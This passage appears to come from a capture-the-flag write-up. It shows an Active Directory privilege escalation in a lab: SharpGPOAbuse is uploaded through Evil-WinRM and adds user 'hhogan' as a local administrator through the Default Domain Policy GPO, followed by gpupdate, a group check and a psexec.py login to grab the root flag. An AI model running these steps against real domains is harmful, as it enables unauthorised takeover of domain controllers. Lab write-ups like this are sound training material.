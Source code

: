 
![](https://i.imgur.com/xReovLT.png)


We can abuse this using `SharpGPOAbuse` Go ahead and download `SharpGPOAbuse.exe` from [here](https://github.com/byronkg/SharpGPOAbuse/blob/main/SharpGPOAbuse-master/SharpGPOAbuse.exe) and upload it to our target computer using the `upload` function of `Evil-WinRM`

![](https://i.imgur.com/YXarX1c.png)


Then list all GPOs in the domain just to make sure you have connection to the Domain Controller


![](https://i.imgur.com/FaKq3jt.png)


Now using `SharpGPOAbuse.exe` add the user `hhogan` to the local administrator group on the Domain Controller



```powershell
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount HHogan --GPOName "Default Domain Policy"

# Force an immediate policy update
gpupdate /force
```



![](https://i.imgur.com/P34oE8x.png)



We can verify that this policy has been added by checking what groups user `hhogan` belongs to


```powershell
net user hhogan /domain
```


![](https://i.imgur.com/nwLjjXx.png)

We can then login via `psexec.py` and grab the root flag


```bash
rlwrap psexec.py hhogan@10.10.11.3
```


![](https://i.imgur.com/aFA3zXR.png)



GG
